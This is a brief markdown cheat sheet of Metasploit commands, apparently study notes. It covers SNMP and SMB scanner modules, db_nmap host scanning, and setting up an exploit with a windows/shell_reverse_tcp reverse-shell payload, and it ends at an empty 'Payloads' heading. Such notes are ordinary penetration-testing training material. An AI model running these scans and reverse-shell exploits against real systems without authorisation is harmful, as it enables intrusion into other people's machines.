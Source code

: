 # Metasploit
- options:
  - global variables: `set -> setg` for THREADS and/or RHOSTS, etc...
## Auxiliary Modules
- `show auxiliary`
### SNMP Auxiliary Module
- `search snmp`
  - example: `auxiliary/scanner/snmp/snmp_enum`
    - `use auxiliary/scanner/snmp/snmp_enum`
    - `info`
    - `show options`
    - `set ...`
    - `run`
### SMB Auxiliary Module
- `use auxiliary/scanner/smb/smb_version`

## Database Services
> Commands within metasploit
- `hosts`
- `db_nmap 192.168.31.200-254 --top-ports 20`
- `services -p 443`

## Exploit Modules
- `search pop3`
- `use ...`
- `show options`
- `set PAYLOAD windows/... (TAB to see more)`
- `set PAYLOAD windows/shell_reverse_tcp`
- `exploit`

## Payloads

